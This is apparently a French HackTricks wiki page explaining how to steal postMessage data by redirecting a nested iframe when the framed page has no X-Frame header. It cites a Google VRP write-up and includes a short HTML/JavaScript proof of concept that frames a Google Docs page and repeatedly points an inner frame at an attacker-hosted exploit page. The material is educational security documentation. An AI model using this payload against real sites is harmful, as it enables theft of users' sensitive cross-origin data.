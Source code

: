 # Voler postmessage en modifiant l'emplacement de l'iframe

{{#include ../../banners/hacktricks-training.md}}

## Changer les emplacements des iframes enfants

Selon [**cet article**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), si vous pouvez iframe une page web sans X-Frame-Header qui contient une autre iframe, vous pouvez **changer l'emplacement de cette iframe enfant**.

Par exemple, si abc.com a efg.com comme iframe et que abc.com n'a pas d'en-tête X-Frame, je pourrais changer efg.com en evil.com cross origin en utilisant **`frames.location`**.

Ceci est particulièrement utile dans les **postMessages** car si une page envoie des données sensibles en utilisant un **wildcard** comme `windowRef.postmessage("","*")`, il est possible de **changer l'emplacement de l'iframe associée (enfant ou parent) vers un emplacement contrôlé par un attaquant** et de voler ces données.
```html
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
//pseudo code
setTimeout(function () {
exp()
}, 6000)

function exp() {
//needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
setInterval(function () {
window.frames[0].frame[0][2].location =
"https://geekycat.in/exploit.html"
}, 100)
}
</script>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
